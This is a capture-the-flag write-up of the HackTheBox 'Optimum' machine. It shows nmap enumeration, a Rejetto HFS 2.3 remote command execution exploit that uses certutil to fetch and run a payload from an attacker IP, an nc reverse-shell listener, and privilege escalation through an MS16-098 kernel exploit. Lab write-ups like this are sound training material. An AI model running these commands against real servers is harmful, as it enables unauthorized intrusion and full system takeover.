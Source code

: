 ```yaml
---
title: Writeup - HTB Optimum
date: 2023-11-11
author: kei5uke
description: Writeup for HTB Optimum
tags:
  - windows
  - writeup
---
```


# Optimum

# Enumeration

## Nmap

```bash
┌──(root💀kali)-[~/optimum]
└─# nmap -sV -sC -T4 -p- 10.129.148.144 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-13 21:25 EET
Nmap scan report for 10.129.148.144
Host is up (0.039s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.83 seconds
```

# Getting shell

Found interesting exploit.

[Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)](https://www.exploit-db.com/exploits/49125)

I run the command below and got first shell.

```bash
┌──(root💀kali)-[~/optimum]
└─# python3 49125.py 10.129.148.144 80 "certutil.exe -urlcache -split -f "http://10.10.16.23/shell.exe""
http://10.129.148.144:80/?search=%00{.+exec|certutil.exe%20-urlcache%20-split%20-f%20http%3A//10.10.16.23/shell.exe.}
                                                                                                                              
┌──(root💀kali)-[~/optimum]
└─# python3 49125.py 10.129.148.144 80 "shell.exe"                            
http://10.129.148.144:80/?search=%00{.+exec|shell.exe.}
```

```bash
┌──(root💀kali)-[~/optimum]
└─# rlwrap nc -lvnp 21
listening on [any] 21 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.148.144] 49174
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

# Privilege Escalation

Windows Exploit suggester suggests using this exploit:

```bash
┌──(root💀kali)-[/opt/Windows-Exploit-Suggester]
└─# python windows-exploit-suggester.py -i sysinfo.txt -d 2023-11-13-mssb.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
```

[Microsoft Windows 8.1 (x64) - 'RGNOBJ' Integer Overflow (MS16-098)](https://www.exploit-db.com/exploits/41020)

```bash
C:\Users\kostas\Desktop>certutil.exe -urlcache -split -f "http://10.10.16.23/optimum.exe" 
certutil.exe -urlcache -split -f "http://10.10.16.23/optimum.exe"
```

Installed the binary and got the root shell

![Screenshot 2023-11-13 at 23.17.22.png](Optimum%20a5bef01909654b14ba6fed4ab7784336/Screenshot_2023-11-13_at_23.17.22.png)

# Note

Windows exploit suggester is useful 🙂